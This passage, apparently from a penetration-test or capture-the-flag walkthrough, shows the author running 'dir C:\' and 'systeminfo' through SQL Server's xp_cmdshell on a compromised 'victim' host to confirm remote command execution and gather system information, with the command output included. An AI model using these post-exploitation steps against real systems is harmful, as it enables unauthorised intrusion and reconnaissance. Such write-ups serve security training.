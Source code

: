 Ready, now let's try something simple let's list the disk C.  
In this way we validate that we can now execute commands on the victim.

```zsh
1> xp_cmdshell 'dir C:\';
2> go

	output                                                                  
----------------------------------------------------------

	 Volume in drive C has no label.                                        
	 Volume Serial Number is 8EB3-6DCB                                      
	NULL  

	 Directory of C:\  
	NULL                                                                                                                       

	18/09/2017  05:58    <DIR>          ACCT                                                      
	18/09/2017  20:35    <DIR>          FTP                                                       
	18/09/2017  21:35    <DIR>          inetpub                                                     
	16/07/2016  13:23    <DIR>          PerfLogs                                                       
	24/12/2017  01:46    <DIR>          Program Files                                                   
	19/10/2017  22:09    <DIR>          Program Files (x86)                                           
	01/10/2017  19:46    <DIR>          TEMP                                                           
	12/10/2017  20:28    <DIR>          Users                                                           
	23/10/2017  20:44    <DIR>          Windows                                                        
	               0 File(s)              0 bytes                                       
	               9 Dir(s)   2,260,242,432 bytes free
```

Excellent, after having our RCE, we will proceed by listing everything.  
We will execute the command *systeminfo*, which is used to return the system information.

```zsh
1> xp_cmdshell 'systeminfo';
2> go

	output                                                                                                                                                                                               
                                                          

	-----------------------------------------------------------------------------------------
    -----------------------------------------------------------------------------------------

	The current directory is invalid.                                                                                                                                                                    
                                                          

NULL
```
